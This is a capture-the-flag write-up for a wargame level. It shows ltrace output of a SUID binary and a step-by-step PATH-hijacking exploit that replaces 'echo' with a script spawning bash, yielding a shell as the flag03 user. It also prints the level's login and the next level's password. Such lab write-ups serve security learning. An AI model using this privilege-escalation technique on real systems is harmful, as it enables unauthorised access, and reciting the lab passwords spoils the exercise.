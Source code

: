 # LEVEL 03

> [!TIP]
> user: `level03` <br>
> pass: `kooda2puivaav1idi4f57q8iq`

## STEP 01

In the home folder of the **level03**, the is a **level03** binary that have
SUID bit set, and belong to the **flag03**

Launching the binary with **ltrace**, give us a little more information

```bash
ltrace ./level03
#__libc_start_main(0x80484a4, 1, 0xbffffbe4, 0x8048510, 0x8048580 <unfinished ...>
#getegid()                                                  = 2003
#geteuid()                                                  = 2003
#setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)        = 0
#setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)        = 0
#system("/usr/bin/env echo Exploit me"
```

> [!NOTE]
> what's important here is that the binary launch an system function with an
> no check for relative path for the echo command

## STEP 02

Let's prepare our exploitation

1. First, create a dir in `/tmp` folder
   - `mkdir /tmp/pix && cd /tmp/pix`
1. Now create an **echo** file that will replace the echo command in the binary
    - `echo bash > /tmp/pix/echo && chmod +x /tmp/pix/echo`
1. Setup the **PATH** env variable to make the `/tmp/pix` folder prevent from
   all other
    - `export PATH=${PWD}:${PATH}`
1. From here, in the `/tmp/pix` folder, launch the `/home/user/level03/level03`
   file

TADA, you now have a shell as **flag03**

> [!IMPORTANT]
> the password for the next level is `qi0maab88jeaj46qoumi7maus`
